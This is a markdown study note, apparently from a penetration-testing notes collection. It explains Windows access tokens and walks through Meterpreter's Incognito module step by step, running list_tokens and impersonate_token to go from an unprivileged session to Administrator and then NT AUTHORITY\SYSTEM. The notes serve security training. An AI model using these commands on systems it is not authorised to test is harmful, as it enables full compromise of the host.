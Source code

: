 # Privilege Escalation: Access Token Impersonation
> How to impersonate a Windows Access Token that belongs to a privileged user (allows us to inherit that users privileges). 

## Contents
- [Intro]()
  - [Windows Access Tokens]()
  - [How Windows Access Token Work]()
  - [Windows Privileges]()
  - [Tool: The Incognito Module]()
- [Practical: Incognito]()
  - [Scenario]()
  - [Usage: Meterpreter Module]()

## Intro

### Windows Access Tokens
- Windows access tokens are a core element of the authentication process on Windows and are created and managed by the Local Security Authority Subsystem Service (LSASS).
- A Windows access token is responsible for identifying and describing the security context of a process or thread running on a system.
  - Simply put, an access token can be thought of as a temporary key similar to a web cookie that provides users with access to a system or network resource without having to provide credentials each time a process is started or a system resource is needed.
- Access tokens are generated by the winlogon.exe process every time a user authenticates successfully and includes the identity and privileges of the user account associated with the thread or process.
  - The token is then attached to the userinit.exe process, after which all child processes started by a user will inherit a copy of the access token from their creator and will run under the privileges of the same access token.

### How Windows Access Token Work
- Windows access tokens are categorized based on the varying security levels assigned to them. These security levels are used to determine the privileges that are assigned to a specific token.
- An access token will typically be assigned one of the following security levels:
  - `Impersonate`: Impersonate-level tokens are created as a direct result of a non-interactive login on Windows, typically through specific system services or domain logons.
  - `Delegate`: Delegate-level tokens are typically created through an interactive login in Windows, primarily through a traditional login or through remote acess protocols like RDP.
- Impersonate-level tokens can be used to impersonate a token on the local system but not on any external systems that utilize the token.
- Delegate-level tokens pose the largest threat as they can be used to impersonate tokens on any system.

### Windows Privileges
- The process of impersonating access tokens to elevate privileges on a system will primarily depend on the privileges assigned to the account that has been exploited to gain initial access as well as the impersonation or delegation tokens available.
- The following are the privileges (getprivs in meterpreter) that are required for a successful impersonation attack:
  - `SeAssignPrimaryToken`: This allows a user to impersonate tokens.
  - `SeCreateToken`: This allows a user to create an arbitrary token with administrative privileges.
  - `SeImpersonatePrivilege`: This allows a user to create a process under the security context of another user typically with administrative privileges.

### Tool: [The Incognito Module](https://www.offsec.com/metasploit-unleashed/fun-incognito/) (MetaSploit)
> Incognito is a built-in **_meterpreter_** module (not just a Metasploit module; it is built into meterpreter) that was originally a standalone application that allows you to impersonate user tokens after successful exploitation.
- Tokens are just like web cookies.
  - They are a temporary key that allows you to access the system and network without having to provide credentials each time you access a file.
- Incognito exploits this the same way cookie stealing works: By replaying that temporary key when asked to authenticate.
- Tokens persist until a reboot.
  - When a user logs off, their delegate token is reported as an impersonate token.
  - But will still hold all of the rights of a delegate token.
- We can use the incognito module to display a list of available tokens that we can impersonate.

## Practical: Incognito

### Scenario
- You have an unprivileged meterpreter session on an compromised target (via MSF).
- This attack will depend on what users are currently on the system and if any of those users has an account with admin access.
  - They'll leave their tokens just lying around for us to pick up...

### Usage: Meterpreter Module

#### Initial
```
> sysinfo
  # target is 64-bit but meterpreter is 32-bit; migrate meterpreter to 64-bit

> pgrep explorer
> migrate [pid]
  # ACCESS DENIED b/c we currently have an unprivileged user account

> getuid
  # NT AUTHORITY/LOCAL SERVICE... not system

> getprivs
  # confirms your limited privileges on the account you're using
  # NOTE: The getprivs lists out the privileges assigned to this account. One of them is SeImpersonatePrivilege.
  # That means we can use this account to impersonate other access token available.

> load incognito
  # if your session dies, start it again and load again...

> list_tokens -u
  # lists user's delegation and impersonation tokens
```

#### Find & Impersonate Admin Token
- What you are interested in are **Delegation** tokens (token created as part of an interactive login) that have administrator privileges.
- For example: HOSTNAME\Administrator this would be a fine delegated token to impersonate).
```
> impersonate_token "HOSTNAMEE\Administrator" 
  # you may need to add a second "\" (HOSTNAME\\Administrator)
  # should be successful

> getuid
  # should show the above account

> getprivs
  # FAIL

> pgrep explorer
> migrate [pid]

> getprivs
  # should have a bundle of goodies: elevated privileges

> list_tokens -u
  # If you list-tokens -u again, you'll see you have additional tokens available.
  # One such token is NT AUTHORITY\SYSTEM.

> impersonate_token "NT AUTHORITY\SYSTEM"
> getuid
  # should show that same name
> getprivs
```

- If you do not have any administrator level tokens available (when you list_tokens -u), then you'll have to do a `potato attack`.
- This will generate an NT AUTHORITY access token that you can then use to impersonate and thereby obtain the privileges assocated with that token. 
